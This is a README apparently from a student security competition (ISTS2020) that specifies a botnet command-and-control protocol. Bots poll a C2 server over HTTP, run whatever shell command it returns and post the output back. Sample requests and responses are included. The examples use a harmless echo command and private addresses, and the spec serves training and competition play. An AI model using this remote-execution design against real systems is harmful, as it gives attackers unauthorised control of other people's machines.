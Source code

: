 # ISTS2020-Botnet

The botnet spec for ISTS2020.

Teams deploy their botnet across the infrastructure to capture hosts and gain points.


A sample python bot can be found in [bot.py](./bot.py).

## Botnet Spec

The botnet spec is rather simple, bots call back to the C2 every round using HTTP.

The first step is the checkin for commands

```
GET /callback HTTP/1.1
Host: 192.168.177.195
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 58
Content-Type: application/json

{
  "team": "5",
  "ip": "192.168.177.195",
  "user": "www-data"
}
```

The server will reply with a command to execute and a command ID
```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 191

{
  "command": "echo ggahgyvextpblhtdvamkgnpgexihtt", 
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155", 
  "ip": "192.168.177.195", 
  "team": "5", 
  "type": "linux", 
  "user": "www-data"
}
```


Once a command is received, the bot must execute the command and return the results to the server. This is done through a simple POST request.

```
POST /callback HTTP/1.1
Host: 192.168.177.195:5000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 93
Content-Type: application/json

{
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155",
  "results": "ggahgyvextpblhtdvamkgnpgexihtt\n"
}
```

The server will then send back a message indicating whether or not the check in was successful.

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 143

{
  "id": "9607189a-0163-48a0-80de-99b4fa9a8155", 
  "ip": "192.168.177.195", 
  "msg": "successful check in", 
  "time": 1581107673.8783097
}
```


## Errors

If there is an error during the process, the server will add the "error" field in the JSON with a description of the error.


In the following example, the bot tries to call back from a host that is not in the scope of the team's attack space.

```
GET /callback HTTP/1.1
Host: 192.168.177.195:5000
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 50
Content-Type: application/json

{"team": "5", "ip": "8.8.8.8", "user": "www-data"}

HTTP/1.0 400 BAD REQUEST
Content-Type: application/json
Content-Length: 45

{
  "error": "unknown IP address: 8.8.8.8"
}
```